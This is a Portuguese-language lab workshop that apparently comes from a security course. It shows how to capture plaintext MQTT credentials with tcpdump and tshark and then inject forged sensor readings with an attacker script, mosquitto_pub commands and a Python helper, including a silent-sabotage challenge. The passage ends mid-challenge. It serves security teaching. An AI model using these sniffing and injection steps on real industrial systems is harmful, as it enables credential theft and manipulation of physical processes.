


# Workshop 04: Ataques de Interceptação e Injeção de Dados em Protocolo MQTT (IoT) sem Criptografia

**Tags:** `segurança da informação` · `captura de tráfego` · `tcpdump` · `tshark` · `MQTT` · `IoT` · `mosquitto` · `Kali Linux` · `Docker` · `injeção de dados` · `Wireshark`

**Autor:** Charles Alandt

**Contato:** `echo "Y2hhcmxlcy5hbGFuZHRAZ21haWwuY29tCg==" | base64 -d`

**Uso e atribuição:** este material pode ser copiado, adaptado e utilizado livremente para fins educacionais, desde que a fonte e o autor sejam referenciados.

---

> [!CAUTION]
> **AVISO DE ÉTICA E RESPONSABILIDADE**
> Este conteúdo e ambiente foram elaborados exclusivamente para fins educacionais, laboratoriais e de pesquisa em ambiente controlado.
>
> **Uso estritamente proibido** em sistemas de terceiros, redes públicas ou redes de produção sem autorização formal. O uso deste material em qualquer contexto que viole normas legais, políticas corporativas ou limites do laboratório é de inteira responsabilidade do executor.
>
> **DISCLAIMER DE ESTABILIDADE E SUPORTE:**
> Este laboratório foi testado e validado pelo instrutor em ambiente real (servidor Ubuntu + Docker + Kali Linux 2026.1). No entanto, o ecossistema de TI (versões de kernel, distribuições Linux, imagens Docker, ferramentas de rede e provedores de virtualização) evolui rapidamente.
>
> **Fique atento:**
> - A execução é permitida apenas em laboratório isolado (VM dedicada, Docker Lab, NAT/Host-Only ou rede segregada).
> - A captura de tráfego de rede deve ser realizada apenas em redes autorizadas e com consentimento dos envolvidos.
> - Ambientes de laboratório são sensíveis e dependentes de hardware, configuração de rede e versões de pacotes.
> - Falhas podem ocorrer devido a drivers, virtualização desativada (BIOS/VT-x/AMD-V), firewall local, ausência de pacotes, containers parados ou conflitos de rede.
> - **Ajustes manuais podem ser necessários** durante o processo para adequar o lab à sua máquina específica.
> - **Este material é apenas um guia de como realizar as atividades.** O passo a passo foi validado no ambiente do instrutor; o "como" pode ser melhorado e ajustes ao seu ambiente podem ser necessários para alcançar o mesmo resultado.

---

## Índice

- [1. Ambiente e Preparação](#1-ambiente-e-preparação)
  - [Contexto: por que o MQTT é indispensável na Indústria 4.0](#contexto-por-que-o-mqtt-é-indispensável-na-indústria-40)
  - [Cenário do laboratório](#cenário-do-laboratório)
  - [1.1 Arquitetura do laboratório](#11-arquitetura-do-laboratório)
  - [1.2 Obter os arquivos do workshop](#12-obter-os-arquivos-do-workshop)
  - [1.3 Pré-requisitos](#13-pré-requisitos)
- [2. Como Subir o Broker MQTT via Docker](#2-como-subir-o-broker-mqtt-via-docker)
  - [2.1 Dockerfile e docker-compose (sem TLS)](#21-dockerfile-e-docker-compose-sem-tls)
  - [2.2 Iniciar broker + dashboard](#22-iniciar-broker-dashboard)
  - [2.3 Verificar a instância](#23-verificar-a-instância)
- [3. Fase 2: Interceptação (Sniffing) das Credenciais e dos Dados](#3-fase-2-interceptação-sniffing-das-credenciais-e-dos-dados)
  - [Passo 3.1: Rodar o sensor legítimo](#passo-31-rodar-o-sensor-legítimo)
  - [Passo 3.2: Sniffing das credenciais no CONNECT (tcpdump)](#passo-32-sniffing-das-credenciais-no-connect-tcpdump)
  - [Passo 3.3: Sniffing dos payloads JSON (tshark)](#passo-33-sniffing-dos-payloads-json-tshark)
  - [Passo 3.4: Script automático de captura](#passo-34-script-automático-de-captura)
- [4. Fase 3: Injeção de Dados Falsos (Spoofing)](#4-fase-3-injeção-de-dados-falsos-spoofing)
  - [Passo 4.1: Injeção com o script do atacante](#passo-41-injeção-com-o-script-do-atacante)
  - [Passo 4.2: Injeção manual com mosquitto_pub](#passo-42-injeção-manual-com-mosquitto_pub)
  - [Passo 4.3: Confirmar a alteração no dashboard](#passo-43-confirmar-a-alteração-no-dashboard)
- [5. Desafio: Atacante de Telemetria — além do tópico original](#5-desafio-atacante-de-telemetria-além-do-tópico-original)
- [6. Fase 4: Mitigação e Hardening (explicação)](#6-fase-4-mitigação-e-hardening-explicação)
  - [6.1 ACL: controle de acesso por tópico](#61-acl-controle-de-acesso-por-tópico)
  - [6.2 O que vem depois (TLS)](#62-o-que-vem-depois-tls)
- [7. Lições Aprendidas](#7-lições-aprendidas)
- [8. Atividade Extra: Análise no Wireshark](#8-atividade-extra-análise-no-wireshark)
- [Troubleshooting](#troubleshooting)
- [Anexo A: O que é o MQTT?](#anexo-a-o-que-é-o-mqtt)

---

## 1. Ambiente e Preparação

### Contexto: por que o MQTT é indispensável na Indústria 4.0

Na Indústria 4.0, a **telemetria** é o coração da operação: sensores espalhados pela planta (temperatura, pressão, vibração, umidade, consumo de energia) geram milhares de leituras por minuto que alimentam sistemas de supervisão, controle e manutenção preditiva. É essa malha de sensores que permite à fábrica "enxergar" o que acontece em cada máquina em tempo real, detectar anomalias antes que virem paradas e otimizar processos continuamente.

Para transportar essa massa de dados de forma eficiente, a indústria adotou o **MQTT (Message Queuing Telemetry Transport)** como protocolo de fato. Criado em 1999 pela IBM para telemetria em oleodutos, ele se tornou o padrão da Internet das Coisas (IoT) industrial por três razões:

- **Leveza:** mensagens com cabeçalho mínimo (2 bytes), perfeitas para sensores com pouca memória, processamento e bateria — e para redes com banda limitada.
- **Modelo publish/subscribe:** o sensor *publica* em um tópico (`sensores/camara1/temperatura`) e o sistema de monitoramento *assina* esse tópico, sem precisarem se conhecer. O **broker** centraliza e roteia as mensagens, desacoplando produtor e consumidor.
- **QoS e conexões persistentes:** níveis de garantia de entrega (0, 1 e 2) e suporte a conexões de longa duração, adequados a ambientes industriais com redes instáveis.

O problema: por ser um protocolo de telemetria concebido para eficiência, o MQTT **não inclui criptografia nativa**. Em muitas implantações reais (e em praticamente todas as de baixo custo), o tráfego trafega **sem TLS**, expondo credenciais e dados a quem estiver na mesma rede. Na indústria, uma leitura adulterada de temperatura pode induzir uma equipe a desligar uma máquina saudável — ou a ignorar um superaquecimento real, com consequências físicas e financeiras. É exatamente esse risco que este workshop demonstra em laboratório.

### Cenário do laboratório

Neste workshop, um broker **Eclipse Mosquitto 2.x** roda em um container Docker no **srvdocker01**, junto com um **dashboard** (aplicação Python que consome as leituras dos sensores). Um segundo host (**kali**) é a **máquina do sensor** (dispositivo IoT que publica temperatura) e também do **atacante** (que observa a rede, captura as credenciais e injeta dados falsos). O cenário simula uma planta industrial onde sensores de temperatura publicam telemetria via MQTT **sem TLS**, permitindo que qualquer pessoa na mesma rede leia as credenciais e **manipule as leituras** que chegam à aplicação de monitoramento.

Premissas do laboratório:

- Duas máquinas na mesma rede: **servidor** (srvdocker01) e **cliente/atacante** (kali).
- O servidor roda um container Docker com **Eclipse Mosquitto 2.x** (broker MQTT) **sem TLS/SSL** + um dashboard Python.
- O cliente roda o **sensor** (publica temperatura) e o **atacante** (sniffa e injeta).
- Autenticação dupla, como na indústria: **usuário/senha no CONNECT** (pacote MQTT) **+ token customizado no payload JSON** — ambos em texto claro e sniffáveis.
- Todos os comandos devem ser executados e validados um a um.
- A atividade deve ocorrer somente dentro da subrede autorizada do laboratório.
- Sempre substitua exemplos como `172.30.234.55` e `172.30.234.56` pelos valores reais encontrados no seu ambiente.

Objetivos de aprendizagem:

1. Configurar um broker MQTT vulnerável (sem TLS) com **autenticação dupla**, como na indústria: **usuário/senha no pacote CONNECT** + **token de aplicação no payload JSON** — ambos em texto claro e sniffáveis.
2. Capturar o tráfego MQTT com `tcpdump`/`tshark` e **ler as credenciais em texto claro** (usuário/senha no CONNECT e token no JSON).
3. Compreender como um atacante descobre o tópico e o formato do payload.
4. **Injetar dados falsos** no broker e fazer o dashboard exibir uma temperatura crítica inexistente.
5. Entender as mitigações: ACL por tópico, TLS (porta 8883) e validação de origem.

> [!NOTE]
> **Ajuste os endereços IP conforme o seu ambiente!**
> Os IPs abaixo são do laboratório onde o instrutor validou o workshop. No seu ambiente os endereços serão diferentes.
>
> **Como descobrir o IP de cada máquina:**
> - No servidor: `ip -brief address`
> - No cliente: `ip -brief address`
>
> **Regra prática:** substitua `172.30.234.55` pelo IP real do servidor e `172.30.234.56` pelo IP real do cliente/kali.

### 1.1 Arquitetura do laboratório



> **Imagem alternativa:** caso o seu visualizador de Markdown não renderize SVG, use a versão PNG: 

**Quem é quem:**

| Componente | Onde roda | Função | Credencial |
|------------|-----------|--------|------------|
| Broker Mosquitto | srvdocker01 (Docker) | Roteia mensagens MQTT | — |
| Dashboard (`aplicacao.py`) | srvdocker01 (Docker) | Assina `sensores/#`, valida token, imprime leituras | `app_dashboard` / `app_dash_2024` |
| Sensor (`sensor.py`) | kali | Publica temperatura a cada 5s | `sensor_camara1` / `sensor_senha_2024` + token `tok_sensor_camara1_7f3a9c` |
| Atacante (`atacante.py`) | kali | Sniffa e injeta payload falso | usa as credenciais capturadas |

### 1.2 Obter os arquivos do workshop

Todos os arquivos necessários (Dockerfile, docker-compose.yml, configs e scripts) estão no repositório do professor. **Você não precisa copiar e colar nada**: use um dos dois métodos abaixo.

**Opção A — clone o repositório (recomendado):**

```bash
# No servidor (srvdocker01) e no kali:
git clone https://github.com/charles-josiah/Aulas.git
cd Aulas/2026-07-Lab-Cripto-e-SegRedes/Workshops/04-Captura_de_Tráfego_MQTT
```

**Opção B — baixe os arquivos individualmente:**

Clique no link de cada arquivo abaixo e baixe-o para a sua máquina (botão "Download raw file" ou "Raw"):

| Arquivo | Link no GitHub |
|---------|----------------|
| `Dockerfile` | [ver no GitHub](https://github.com/charles-josiah/Aulas/blob/master/2026-07-Lab-Cripto-e-SegRedes/Workshops/04-Captura_de_Tráfego_MQTT/Dockerfile) |
| `docker-compose.yml` | [ver no GitHub](https://github.com/charles-josiah/Aulas/blob/master/2026-07-Lab-Cripto-e-SegRedes/Workshops/04-Captura_de_Tráfego_MQTT/docker-compose.yml) |
| `conf/mosquitto.conf` | [ver no GitHub](https://github.com/charles-josiah/Aulas/blob/master/2026-07-Lab-Cripto-e-SegRedes/Workshops/04-Captura_de_Tráfego_MQTT/conf/mosquitto.conf) |
| `scripts/iniciar_servidor.sh` | [ver no GitHub](https://github.com/charles-josiah/Aulas/blob/master/2026-07-Lab-Cripto-e-SegRedes/Workshops/04-Captura_de_Tráfego_MQTT/scripts/iniciar_servidor.sh) |
| `scripts/sensor.py` | [ver no GitHub](https://github.com/charles-josiah/Aulas/blob/master/2026-07-Lab-Cripto-e-SegRedes/Workshops/04-Captura_de_Tráfego_MQTT/scripts/sensor.py) |
| `scripts/aplicacao.py` | [ver no GitHub](https://github.com/charles-josiah/Aulas/blob/master/2026-07-Lab-Cripto-e-SegRedes/Workshops/04-Captura_de_Tráfego_MQTT/scripts/aplicacao.py) |
| `scripts/atacante.py` | [ver no GitHub](https://github.com/charles-josiah/Aulas/blob/master/2026-07-Lab-Cripto-e-SegRedes/Workshops/04-Captura_de_Tráfego_MQTT/scripts/atacante.py) |
| `scripts/capturar.sh` | [ver no GitHub](https://github.com/charles-josiah/Aulas/blob/master/2026-07-Lab-Cripto-e-SegRedes/Workshops/04-Captura_de_Tráfego_MQTT/scripts/capturar.sh) |

> **Dica:** para baixar direto no terminal, use `curl -O https://raw.githubusercontent.com/charles-josiah/Aulas/master/2026-07-Lab-Cripto-e-SegRedes/Workshops/04-Captura_de_Tráfego_MQTT/<arquivo>`. Baixe os arquivos na mesma estrutura de pastas do repositório (`Dockerfile` e `docker-compose.yml` na raiz do workshop; `conf/` e `scripts/` nas respectivas subpastas).

### 1.3 Pré-requisitos

| Máquina | Pacote | Comando de verificação |
|---------|--------|------------------------|
| srvdocker01 | Docker + Compose | `docker --version && docker compose version` |
| kali | `tshark` (Wireshark CLI) | `tshark --version` |
| kali | `tcpdump` | `tcpdump --version` |
| kali | Python + `paho-mqtt` | `python3 -c "import paho.mqtt"` |
| kali | `mosquitto-clients` (opcional, p/ injeção manual) | `mosquitto_pub --help` |

Para instalar o que faltar no kali:

```bash
sudo apt update
sudo apt install -y tshark tcpdump mosquitto-clients
pip install paho-mqtt
```

> [!NOTE]
> O usuário do kali precisa estar no grupo `wireshark` para capturar sem `sudo` (recomendado pelo laboratório): `sudo usermod -aG wireshark kali` e relogar.

---

## 2. Como Subir o Broker MQTT via Docker

### 2.1 Dockerfile e docker-compose (sem TLS)

```bash
# Dockerfile ja esta na raiz do workshop (Dockerfile)
# Ele usa python:3.11-slim + paho-mqtt e roda o dashboard (aplicacao.py).
# A imagem so e necessaria para o servico "dashboard".
```

```yaml
# docker-compose.yml (ja incluido no workshop)
services:
  mosquitto:
    image: eclipse-mosquitto:2
    container_name: laboratorio-mqtt-broker
    restart: unless-stopped
    ports:
      - "1883:1883"   # MQTT sem TLS (texto claro) - VULNERAVEL por design
    volumes:
      - ./conf/mosquitto.conf:/mosquitto/config/mosquitto.conf:ro
      - ./conf/mosquitto.passwd:/mosquitto/config/mosquitto.passwd:ro
      - mqtt_data:/mosquitto/data
      - mqtt_log:/mosquitto/log

  dashboard:
    build: .
    container_name: laboratorio-mqtt-dashboard
    restart: unless-stopped
    depends_on:
      - mosquitto
    environment:
      - MQTT_HOST=mosquitto
      - MQTT_PORT=1883
      - MQTT_USER=app_dashboard
      - MQTT_PASS=app_dash_2024
      - SENSOR_TOKEN=tok_sensor_camara1_7f3a9c
    command: ["python", "/app/aplicacao.py"]

volumes:
  mqtt_data:
  mqtt_log:
```

O arquivo `conf/mosquitto.conf` é o coração da vulnerabilidade:

```conf
# conf/mosquitto.conf (ja incluido no workshop)
persistence true
persistence_location /mosquitto/data/
log_dest stdout
log_type all

# Listener principal - texto claro na porta 1883 (SEM TLS)
listener 1883 0.0.0.0

# Autenticacao por usuario/senha
# VETOR DE ATAQUE: as credenciais viajam no pacote CONNECT em plaintext
allow_anonymous false
password_file /mosquitto/config/mosquitto.passwd

# Sem ACL nesta fase: qualquer usuario autenticado pode publicar
# em qualquer topico (o atacante vai explorar isso na Fase 3)
# acl_file /mosquitto/config/mosquitto.acl   # descomentar na Fase 4
```

Pontos didáticos do config:

- `allow_anonymous false` + `password_file`: parece seguro, mas a **senha viaja em texto claro** no pacote `CONNECT` — o atacante a lê na captura.
- **Sem `acl_file`**: qualquer usuário autenticado pode publicar em **qualquer tópico** — é isso que permite a injeção na Fase 3.

### 2.2 Iniciar broker + dashboard

```bash
# No servidor (srvdocker01)
cd /docker/laboratorio-seguranca-mqtt
./scripts/iniciar_servidor.sh   # gera o passwd, constroi e sobe broker + dashboard
```

O script `iniciar_servidor.sh` faz:

1. Gera `conf/mosquitto.passwd` com `mosquitto_passwd -b` (usuários `sensor_camara1` e `app_dashboard`).
2. Derruba containers antigos (`docker compose down`).
3. Constrói a imagem do dashboard e sobe tudo (`docker compose up -d --build`).
4. Mostra o log do dashboard em tempo real (Ctrl+C para sair; o stack continua rodando).

> [!IMPORTANT]
> O arquivo `mosquitto.passwd` é **gerado no servidor** (contém hashes de senha) e **não** deve ser commitado no repositório. Se o container não conseguir ler o arquivo (erro `Unable to open pwfile`), corrija as permissões:
> ```bash
> chmod 644 conf/mosquitto.passwd
> docker compose restart mosquitto
> ```

### 2.3 Verificar a instância

```bash
docker compose ps
# NAME                          STATUS   PORTS
# laboratorio-mqtt-broker       Up       0.0.0.0:1883->1883/tcp
# laboratorio-mqtt-dashboard    Up

docker logs laboratorio-mqtt-dashboard
# [DASHBOARD] Conectado ao broker mosquitto:1883 (rc=Success)
# [DASHBOARD] Assinando 'sensores/#' - aguardando leituras...
```

Do **kali**, teste a porta:

```bash
nc -zv 172.30.234.55 1883
```

---

## 3. Fase 2: Interceptação (Sniffing) das Credenciais e dos Dados

Nesta fase você desempenha o papel de **observador de rede**: primeiro o dispositivo IoT legítimo publica telemetria; em paralelo, você captura o tráfego e **lê as credenciais e os dados em texto claro**.

### Passo 3.1: Rodar o sensor legítimo

No **kali** (máquina do sensor):

```bash
cd ~/laboratorio-mqtt
python3 scripts/sensor.py 172.30.234.55
```

Resultado esperado:

```text
[SENSOR] Conectado ao broker 172.30.234.55:1883 (rc=0)
[SENSOR] Publicando em 'sensores/camara1/temperatura' a cada 5s...
[SENSOR] publicado: {"sensor": "camara1", "metrica": "temperatura", "valor": 23.7, "unidade": "C", "token": "tok_sensor_camara1_7f3a9c", "timestamp": 1786278496}
[SENSOR] publicado: {"sensor": "camara1", "metrica": "temperatura", "valor": 21.1, "unidade": "C", "token": "tok_sensor_camara1_7f3a9c", "timestamp": 1786278501}
```

**Deixe o sensor rodando** em um terminal e abra um **segundo terminal** para o sniffing.

> [!NOTE]
> Repare no payload JSON: além do valor de temperatura, ele carrega um **token de aplicação** (`tok_sensor_camara1_7f3a9c`). Na prática, muitas soluções IoT "protegem" o payload com um token fixo embutido no firmware — **mas como o canal é texto claro, o token também é capturado**. O dashboard valida esse token com confiança cega no que recebe (sem validar a origem), e é exatamente isso que o atacante explora.

### Passo 3.2: Sniffing das credenciais no CONNECT (tcpdump)

> [!IMPORTANT]
> **Sequência de dois terminais:** o usuário e a senha só aparecem no pacote `CONNECT` — e o `CONNECT` só é enviado **no momento em que o sensor (re)conecta ao broker**. Por isso a captura precisa estar rodando **antes** da conexão do sensor. Siga a ordem: **1º tcpdump no terminal 1, 2º sensor no terminal 2.**

**Terminal 1 — sniffer (inicie este primeiro; fica em espera capturando):**

```bash
# No primeiro terminal do kali:
sudo timeout 20 tcpdump -i eth0 -A -s 0 "tcp port 1883" | grep -E "sensor_|tok_|temperatura" --color=always
```

**Terminal 2 — sensor legítimo (agora, no segundo terminal):**

```bash
# Se o sensor do Passo 3.1 ainda estiver rodando, pare-o com Ctrl+C.
# Depois rode de novo — é a (re)conexão que dispara o CONNECT:
python3 scripts/sensor.py 172.30.234.55
```

O `timeout 20` encerra o `tcpdump` sozinho após 20 segundos. O sensor continua rodando para os próximos passos.

Resultado esperado (saída real do laboratório do instrutor, no **terminal 1**):

```text
... .MQTT...<....sensor_camara1..sensor_senha_2024
```

Análise:

- **`sensor_camara1`** (usuário) e **`sensor_senha_2024`** (senha) aparecem **literalmente em texto claro** no payload do pacote `CONNECT`.
- O MQTT envia usuário e senha em campos separados do pacote, **sem nenhuma criptografia** quando o TLS está desligado.
- É a mesma vulnerabilidade do FTP/MySQL/HTTP dos workshops anteriores: **a autenticação é capturável na origem**.

> [!IMPORTANT]
> Troque `-i eth0` pela interface real do seu kali (`ip -brief address`). Se usar `-i any`, o tshark avisa que o modo promíscuo não é suportado nesse device virtual.

### Passo 3.3: Sniffing dos payloads JSON (tshark)

Com o sensor rodando, o `tshark` decodifica o protocolo MQTT e mostra o tópico e o conteúdo das mensagens:

```bash
timeout 10 tshark -i eth0 -f "tcp port 1883" -Y "mqtt.msgtype==3" \
  -T fields -e frame.time_epoch -e mqtt.topic -e mqtt.msg \
  -E header=y -E separator=' | '
```

Resultado esperado:

```text
frame.time_epoch mqtt.topic mqtt.msg
1786278496.579  sensores/camara1/temperatura 7b2273656e736f72...
1786278501.582  sensores/camara1/temperatura 7b2273656e736f72...
```

Análise:

- `mqtt.msgtype==3` são os pacotes `PUBLISH` (publicação de mensagem).
- O campo `mqtt.msg` é o payload **em hex**. Para ler o JSON, use o `tcpdump -A` (Passo 3.2) ou o Wireshark (seção 8), que decodificam o ASCII.
- O que importa aqui: **o tópico (`sensores/camara1/temperatura`) e o formato do payload são totalmente visíveis** para qualquer um na rede. O atacante não precisa de "hackear" nada: ele apenas observa e aprende a estrutura.

### Passo 3.4: Script automático de captura

O workshop inclui o script `scripts/capturar.sh`, que junta as duas formas de captura:

```bash
sudo ./scripts/capturar.sh 172.30.234.55
```

Ele mostra: (1) tópicos/payloads via tshark e (2) as credenciais via tcpdump `-A` com grep. Use-o quando quiser rodar a demonstração inteira de uma vez.

---

## 4. Fase 3: Injeção de Dados Falsos (Spoofing)

Agora você assume o papel de **atacante ativo**: com as credenciais capturadas no Passo 3.2, você autentica no broker como se fosse o sensor legítimo e **publica uma temperatura falsa** no mesmo tópico. O dashboard — que confia cegamente no token — aceita e exibe a leitura adulterada.

### Passo 4.1: Injeção com o script do atacante

```bash
# No kali, com o sensor rodando em outro terminal:
python3 scripts/atacante.py 172.30.234.55
```

Resultado esperado (saída real do laboratório do instrutor):

```text
[ATACANTE] Alvo: 172.30.234.55:1883

[ATACANTE] Fase A - Sniffing: assinando 'sensores/camara1/temperatura' por 8s...
[ATACANTE] Autenticando com as CREDENCIAIS capturadas no tcpdump (Fase 2)...
[ATACANTE] [SNIFF] sensores/camara1/temperatura: {"sensor": "camara1", "metrica": "temperatura", "valor": 21.3, "unidade": "C", "token": "tok_sensor_camara1_7f3a9c", ...}
[ATACANTE] [SNIFF] sensores/camara1/temperatura: {"sensor": "camara1", "metrica": "temperatura", "valor": 25.1, "unidade": "C", "token": "tok_sensor_camara1_7f3a9c", ...}
[ATACANTE] Sniffing concluido: 2 payloads capturados.

[ATACANTE] Fase B - Injetando payload FALSO (99.5C) em 'sensores/camara1/temperatura'...
[ATACANTE] payload: {"sensor": "camara1", "metrica": "temperatura", "valor": 99.5, "unidade": "C", "token": "tok_sensor_camara1_7f3a9c", ...}
[ATACANTE] Payload falso publicado. Confira o log do dashboard (docker logs -f).
```

O script faz exatamente o que um atacante real faria:

1. **Fase A (sniff)**: assina o tópico com as credenciais roubadas e observa o formato dos payloads legítimos (valor, unidades, token).
2. **Fase B (injeção)**: publica um payload **idêntico em estrutura** (mesmo token!), mas com `valor: 99.5`.

> [!NOTE]
> **Por que a Fase A usa as credenciais capturadas?** Porque o broker está com `allow_anonymous false`. Sem credenciais, o broker responde `not authorised` (CONNACK código 5) — o log do broker mostra a rejeição. Ou seja: a autenticação existe, mas **como a credencial vaza no texto claro, ela não protege nada**. Este é o ponto central do workshop: autenticação sem confidencialidade é uma proteção de fachada.

### Passo 4.2: Injeção manual com mosquitto_pub

Para provar que a injeção não depende de script (qualquer ferramenta MQTT serve), use o cliente CLI:

```bash
# Instale antes (se ainda nao tiver):
sudo apt install -y mosquitto-clients

# Injeta a temperatura falsa com as credenciais capturadas:
mosquitto_pub -h 172.30.234.55 -p 1883 \
  -u sensor_camara1 -P sensor_senha_2024 \
  -t sensores/camara1/temperatura \
  -m '{"sensor":"camara1","metrica":"temperatura","valor":99.5,"unidade":"C","token":"tok_sensor_camara1_7f3a9c","timestamp":1}'
```

O efeito no dashboard é idêntico ao do script.

### Passo 4.3: Confirmar a alteração no dashboard

No **srvdocker01**, acompanhe o log do dashboard:

```bash
docker logs -f laboratorio-mqtt-dashboard
```

Resultado esperado (saída real do laboratório do instrutor):

```text
[DASHBOARD] [OK] sensores/camara1/temperatura: 20.8C (token valido)
[DASHBOARD] [OK] sensores/camara1/temperatura: 21.3C (token valido)
[DASHBOARD] [OK] sensores/camara1/temperatura: 25.1C (token valido)
[DASHBOARD] [ALERTA] TEMPERATURA CRITICA: 99.5C no topico 'sensores/camara1/temperatura' - ACIONAR RESFRIAMENTO!
[DASHBOARD] [OK] sensores/camara1/temperatura: 23.3C (token valido)
```

Análise:

- As leituras normais flutuam entre **~20 e ~26 °C**.
- No meio delas aparece **`99.5C`** com o alerta **`ACIONAR RESFRIAMENTO!`** — um valor que **nunca existiu** no sensor.
- O dashboard **aceitou** o dado porque o token bateu. Ele não tem como saber que a origem era o atacante.
- **Impacto real:** em uma planta industrial, um atacante pode simular superaquecimento (parada desnecessária, pânico, custo) ou **mascarar um superaquecimento real** (publicando valores normais sobre um incêndio — sabotagem silenciosa).

---

## 5. Desafio: Atacante de Telemetria — além do tópico original

> [!IMPORTANT]
> **O que muda em relação ao item 4:** na Fase 3, o `atacante.py` injetou um valor **extremo** (99.5 °C) **no mesmo tópico do sensor** (`sensores/camara1/temperatura`) — um alerta alto e visível. Este desafio vai **além**: você vai injetar em **tópicos que o sensor legítimo nunca publica**, criar um **sensor fantasma** e fazer **sabotagem silenciosa**. O dashboard aceita tudo isso porque assina `sensores/#` — qualquer tópico sob esse prefixo é exibido como leitura legítima.

**Objetivo geral:**
- Provar que um intruso, com as credenciais capturadas, não se limita a adulterar a temperatura da câmara 1: ele pode **criar telemetria do nada** (tópicos e até sensores que não existem) e **mascarar a ausência de um sensor real**.

**Contextualização:**
- Você continua na equipe de Red Team da fábrica. O atacante da Fase 3 foi pego porque o alerta de 99.5 °C chamou a atenção. Agora você precisa mostrar ao cliente que dá para atacar **sem gerar nenhum alerta** — e ainda **inventar dados** que a equipe de monitoramento vai acreditar.

**Você já tem (do Passo 3.2 / item 4):** usuário `sensor_camara1`, senha `sensor_senha_2024` e token `tok_sensor_camara1_7f3a9c`.

> [!NOTE]
> **Sem `mosquitto_pub` no seu kali?** Se você não pode instalar o pacote `mosquitto-clients` (precisa de `sudo`), use a função Python abaixo no lugar — ela faz exatamente a mesma publicação via `paho-mqtt` (já instalado), que é o que o `atacante.py` usa:
>
> ```python
> import json, paho.mqtt.client as mqtt
> def pub(topic, payload):
>     c = mqtt.Client(mqtt.CallbackAPIVersion.VERSION2)
>     c.username_pw_set("sensor_camara1", "sensor_senha_2024")
>     c.connect("172.30.234.55", 1883, 60)
>     c.publish(topic, json.dumps(payload), qos=0)
>     c.disconnect()
> ```
> Depois, cada comando `mosquitto_pub` do desafio pode ser trocado por uma chamada:
> `pub("sensores/camara1/umidade", {"sensor":"camara1","metrica":"umidade","valor":12.5,"unidade":"%","token":"tok_sensor_camara1_7f3a9c","timestamp":1})`

### Parte A — Métrica falsa em tópico que o sensor nunca publica

O sensor legítimo só publica em `sensores/camara1/temperatura`. E se o atacante publicar **umidade** — uma métrica que a câmara 1 nem tem?

```bash
mosquitto_pub -h 172.30.234.55 -p 1883 -u sensor_camara1 -P sensor_senha_2024 \
  -t sensores/camara1/umidade \
  -m '{"sensor":"camara1","metrica":"umidade","valor":12.5,"unidade":"%","token":"tok_sensor_camara1_7f3a9c","timestamp":1}'
```

No dashboard (`docker logs -f laboratorio-mqtt-dashboard` no servidor):

```text
